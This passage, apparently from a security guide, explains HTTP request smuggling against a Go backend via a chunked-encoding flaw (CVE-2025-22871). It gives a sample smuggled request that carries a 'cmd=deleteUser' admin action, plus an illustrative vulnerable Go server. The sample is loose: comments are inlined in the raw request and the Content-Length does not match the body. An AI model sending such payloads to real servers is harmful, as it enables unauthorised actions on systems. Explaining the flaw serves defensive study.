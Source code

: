 **3. HTTP Request Smuggling (Conceptual Example - Vulnerability in Go Backend's Interpretation):**
HTTP Request Smuggling typically involves a front-end proxy and a back-end Go server. The vulnerability in the Go backend (e.g., pre-patch for CVE-2025-22871) lies in how it interprets an ambiguously crafted request forwarded by the proxy. The Go code itself might be a standard HTTP handler, but its parsing logic for chunked encoding (specifically handling of bare LF) is flawed.

*Conceptual Malicious Request (as seen by the Go backend after proxy interaction):*

```bash
POST /legitimate_endpoint HTTP/1.1
Host: example.com
Transfer-Encoding: chunked

0\n  // Go backend (vulnerable to CVE-2025-22871) might incorrectly process this due to bare LF, ending the first request.
X-Ignored-Header:
\r\n // This might be seen as starting a new request by the vulnerable Go backend.
POST /smuggled_admin_action HTTP/1.1
Host: internal-service.local
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

cmd=deleteUser
```

*Go Server Code (Illustrative):*

```bash
package main

import (
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
)

func mainHandler(w http.ResponseWriter, r *http.Request) {
	body, _ := ioutil.ReadAll(r.Body)
	log.Printf("Handler received request for: %s, Method: %s, Host: %s, Body: %s", r.URL.Path, r.Method, r.Host, string(body))
	
	// Business logic for the intended endpoint(s)
	if r.URL.Path == "/legitimate_endpoint" {
		fmt.Fprintf(w, "Request to %s processed.", r.URL.Path)
	} else if r.URL.Path == "/smuggled_admin_action" {
		// This part should ideally not be reachable directly or under these circumstances
		log.Printf("!!! Smuggled request to admin action processed: %s", string(body))
		fmt.Fprintf(w, "Admin action %s processed.", r.URL.Path)
	} else {
		http.NotFound(w, r)
	}
}

func main() {
	http.HandleFunc("/", mainHandler)
	// If this Go server is running a version vulnerable to CVE-2025-22871,
	// it might misinterpret chunked encoding with bare LF if a proxy forwards
	// a specifically crafted request. This could lead to the /smuggled_admin_action
	// part of the request being processed as a separate, unintended request.
	// References: [10, 16, 17]
	log.Println("Starting server on :8080...")
	if err := http.ListenAndServe(":8080", nil); err!= nil {
		log.Fatal(err)
	}
}
```